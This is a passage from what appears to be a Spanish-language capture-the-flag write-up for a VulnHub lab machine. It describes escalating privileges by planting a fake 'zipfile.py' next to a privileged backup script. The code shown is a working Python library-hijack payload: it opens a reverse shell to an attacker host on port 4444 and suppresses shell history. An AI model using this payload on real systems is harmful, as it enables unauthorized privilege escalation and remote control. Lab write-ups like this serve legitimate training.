 Aqui vemos un programa de python llamado “backup.py” con este contenido:

<p align="center">
  <img src="../assets/images/vulnhub-pwnlab-init/23.png">
</p>

Notamos que este programa es ejecutado por un usuario con permisos elevados, y por el nombre de backup puede ser que se ejecute periódicamente. Además, este programa importa “os” y “zipfile”. Vamos a aprovechar esto para que en vez de importar la librería “zipfile” ejecute un exploit. Crearmos un archivo junto a “backup.py” llamado “zipfile.py” con lo siguiente:

```python
# rastating.github.io/privilege-escalation-via-python-library-hijacking/
import os
import pty
import socket

lhost = "192.168.56.1"
lport = 4444

ZIP_DEFLATED = 0

class ZipFile:
    def close(*args):
        return

    def write(*args):
        return

    def __init__(self, *args):
        return

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((lhost, lport))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
os.putenv("HISTFILE",'/dev/null')
pty.spawn("/bin/bash")
s.close()
```
